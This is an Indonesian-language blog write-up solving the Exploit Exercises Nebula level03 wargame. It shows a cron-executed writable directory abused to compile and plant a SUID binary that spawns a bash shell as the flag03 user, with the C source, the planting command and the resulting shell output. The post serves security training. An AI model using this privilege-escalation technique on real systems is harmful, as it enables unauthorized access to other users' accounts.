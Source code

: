+++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-17T02:57:47+00:00"
description = "Security Wargames"
featured = "AJXP4TJl_o.jpg"
featuredalt = "Nebula Level03"
featuredpath = "https://images2.imgbox.com/7f/eb"
linktitle = ""
title = "Exploit Exercises - Nebula Level03"
type = "post"

+++
Halaman rincian untuk {{< url-link "level03" "https://exploit-exercises.com/nebula/level03/" "target">}}  berisi petunjuk yang mengarahkan kita ke direktori /home/flag03.

Setelah menavigasi ke direktori home target dan melihat apa yang ada di direktori tersebut, saya melihat sebuah skrip shell writable.sh dan sebuah direktori writable.d.

Dan saya melihat isi dari skrip shell tersebut adalah:

    #!/bin/sh
    
    for i in /home/flag03/writable.d/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
    done

Kode ini akan mengeksekusi sesuatu yang ditempatkan di direktori writable.d saat dipanggil. Bagian rincian juga menyebutkan crontab yang dipanggil setiap beberapa menit.

Tantangan  ini sedikit lebih sulit karena saya ingin mendapatkan akses shell dan tidak hanya mengeluarkan file log yang berisi keluaran getflag.

Setelah mencoba mendekati masalah dengan cara yang sama seperti di {{< url-link "level00" "https://muhammadzakyzulfiqor.xyz/article/nebula-level00/" "target">}} , saya menemukan solusinya yaitu "bash akan mengabaikan bit SUID".

Saya pun mencoba menggunakan pendekatan berbeda dan setelah mendapat uid/gid dari /etc/passwd, saya membuat file foo.c yang berisi beberapa kode untuk _spawn a shell_ yang saya simpan di /tmp.

    #include <stdio.h>
    
    int main()
    {
        setresuid(996, 996, 996);
        setresgid(996, 996, 996);
        system( "/bin/bash" );
        return 0;
    }

Kemudian, saya menempatkan sebuah skrip bash dalam writable.d yang akan mengkompilasi kode tersebut.

    level03@nebula:/home/flag03$ echo -e 'gcc /tmp/foo.c -o /home/flag03/level03;chmod +xs /home/flag03/level03' > /home/flag03/writable.d/bash; chmod +x /home/flag03/writable.d/bash

Saya menunggu cron berjalan, lalu mengeksekusi program level03 yang sudah dikompilasi.

    level03@nebula:/home/flag03$ ls
    level03 writable.d writable.sh
    level03@nebula:/home/flag03$ ./level03
    flag03@nebula:/home/flag03$ id
    uid=996(flag03) gid=996(flag03) groups=996(flag03),1004(level03)
    flag03@nebula:/home/flag03$ getflag
    You have successfully executed getflag on a target account

Dan berhasil!

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/TBNQtrBFkHY?rel=0"></iframe></div></div>